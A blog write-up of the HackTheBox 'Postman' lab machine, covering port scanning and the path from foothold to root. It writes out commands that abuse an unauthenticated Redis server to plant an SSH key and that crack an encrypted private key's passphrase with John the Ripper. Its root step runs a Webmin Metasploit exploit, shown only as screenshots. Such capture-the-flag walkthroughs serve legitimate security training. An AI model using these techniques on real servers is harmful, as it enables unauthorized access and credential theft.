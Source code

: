 ```yaml
---
layout: post
title: HackTheBox - Postman
date: 2021-01-01 01:25:15 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, redis, ssh2john, John The Ripper, miniserv, webmin, CVE-2019-12840, metasploit, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/postman/Postman.png
---
```


## Foothold

### `nmap` scan


{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Postman-full-port-scan.txt 10.10.10.160
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
{% endhighlight %}

### Apache/2.4.29 (port 80)

![Apache port 80](/assets/img/htb/machines/linux/easy/postman/80.png)

![dirb port 80](/assets/img/htb/machines/linux/easy/postman/80-dirb.png)

### Miniserv (port 10000)

First we got an error:

![10000 miniserv error](/assets/img/htb/machines/linux/easy/postman/10000-miniserv.png)

After adding `10.10.10.160 postman` to `/etc/hosts` we are redirected to:

![webmin](/assets/img/htb/machines/linux/easy/postman/10000-webmin.png)

Thanks to [nmap scan](#nmap-scan) we know we're dealing with version **1.910**:

![searchsploit webmin](/assets/img/htb/machines/linux/easy/postman/webmin-searchsploit.png)

Unfortunately the metasploit exploit requires credentials.

### Redis 4.0.9 (port 6379)

According to [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssh), redis home directory is often `/var/lib/redis/`. Let's try to have a shell:


{% highlight bash %}
$ ssh-keygen -t rsa -f postman_rsa
$ redis-cli -h $TARGET 
10.10.10.160:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
$ cat foo.txt | redis-cli -h $TARGET -x set crackit
OK
# Don't know why but I had to do it twice
$ redis-cli -h $TARGET 
10.10.10.160:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
{% endhighlight %}

![shell](/assets/img/htb/machines/linux/easy/postman/shell.png)

## User (redis)

If we go to the `/home` directory, we see there is a user called Matt.

I tried to list the files that he owns:

![find files owned by Matt](/assets/img/htb/machines/linux/easy/postman/find_Matt.png)

The first file `/opt/id_rsa.bak` seems interesting.

We can see it;s an encrypted RSA key:


{% highlight bash %}
$ redis@Postman:/home/Matt$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----                     
Proc-Type: 4,ENCRYPTED
#...
{% endhighlight %}

We can transfer it yo our machine usinh `scp`:


{% highlight bash %}
$ scp -i postman_rsa redis@$TARGET:/opt/id_rsa.bak . 
{% endhighlight %}

Then we can convert using `ssh2john` and run **JohnTheRipper**:


{% highlight bash %}
$ /usr/share/john/ssh2john.py id_rsa.bak > matt_rsa.john
$ john matt_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:04 DONE (2021-01-01 01:03) 0.2500g/s 3585Kp/s 3585Kc/s 3585KC/s  0125457423 ..*7¡Vamos!
Session completed
{% endhighlight %}

`computer2008` is the passphrase!

## User (Matt)


{% highlight bash %}
$ ssh -i id_rsa.bak Matt@$TARGET
Enter passphrase for key 'id_rsa.bak': 
Connection closed by 10.10.10.160 port 22
{% endhighlight %}

This did'nt work so I tried:


{% highlight bash %}
redis@Postman:~$ su Matt
Password: # computer2008
Matt@Postman:/var/lib/redis$ cd
Matt@Postman:~$ cat user.txt
99108a54ba44c99889199e3e53fdacfe
{% endhighlight %}

We can log in to **webmin** using Matt's credentials:

![webmin](/assets/img/htb/machines/linux/easy/postman/webmin.png)

Therefore we can run the metasploit exploit &darr; 

![msf-webmin](/assets/img/htb/machines/linux/easy/postman/msf-webmin.png)
![msf](/assets/img/htb/machines/linux/easy/postman/msf.png)

## Root

![webmin](/assets/img/htb/machines/linux/easy/postman/root_flag.png)
___

## Useful links

- [6379 - Pentesting Redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)
- [CVE-2019-12840](https://cvedetails.com/cve/CVE-2019-12840/)
- [Webmin 1910 Package Updates Remote Command Execution](https://www.pentest.com.tr/exploits/Webmin-1910-Package-Updates-Remote-Command-Execution.html)